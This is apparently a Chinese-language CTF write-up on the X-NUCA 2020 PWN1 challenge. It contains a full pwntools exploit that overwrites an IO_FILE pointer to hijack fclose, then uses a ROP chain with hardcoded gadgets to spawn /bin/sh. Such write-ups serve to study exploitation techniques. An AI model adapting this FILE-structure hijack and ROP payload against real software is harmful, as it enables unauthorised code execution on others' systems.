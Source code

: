 ```yaml
---
title: X-NUCA 2020 Final 个人赛：PWN1
date: 2020-12-10 00:00:00
categories:
- CTF/Pwn
tags: ROP
---
```


> 32位静态链接程序，开了canary和NX，可以溢出可控的IO_FILE结构体，之后会fclose该结构体，所以非常容易控制流劫持。但因为静态链接，也没有后门函数，只能靠系统调用，但因为没法控制栈，也就没法找到一条gadget就能完成execve("/bin/sh",0,0)的。比赛时没做出来，比赛后发现他还有个没有canary可以输入的栈溢出函数，控制流劫持到这然后ROP就完了。

附件：[pwn1](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/pwn1)

这个存在栈溢出的函数在`0x0804A0C0`：

```c
int garbage()
{
  char v1; // [esp+Ch] [ebp-1Ch] BYREF

  return _isoc99_scanf("%s", (char)&v1);
}
```

并且没有函数调用，不愧是垃圾函数：

![image](https://xuanxuanblingbling.github.io/assets/pic/xnuca/garbage.png)

不过后来想想其实可以找到这个函数的，找找输入函数的交叉引用，这也算个经验吧：

![image](https://xuanxuanblingbling.github.io/assets/pic/xnuca/scanf.png)

最终exp如下：

```python
from pwn import *
context(arch='x86',os='linux',log_level='debug')
myelf = ELF("./pwn1")
io = process(myelf.path)

# a vul function can be stackoverflowed and have no canary
hijack_addr = 0x0804A0C0 
iofile_addr = 0x08104ce4
iofile_stuct =  p32(0xffffdfff)
iofile_stuct += '\x00'*0x90
iofile_stuct += p32(iofile_addr+0x98)
iofile_stuct += 'a'*8
iofile_stuct += p32(hijack_addr)*10

# overflow the file pointer and tigger close(file)
payload = '/bin/sh\x00'+'a'*24+p32(iofile_addr)+iofile_stuct
io.recv();io.sendline(payload)
io.recv();io.sendline("3")

# stack overflow and rop 
bin_sh   = 0x08104CC0
gadget1  = 0x08066038 # pop eax ; pop edx ; pop ebx ; ret
gadget2  = 0x0808f26e # inc eax ; ret
gadget3  = 0x0804ab3f # xor ecx, ecx ; int 0x80
payload  = 'a'*32+p32(gadget1)+p32(0x8)+p32(0)+p32(bin_sh)+p32(gadget2)*3+p32(gadget3)
io.sendline(payload)
io.interactive()
```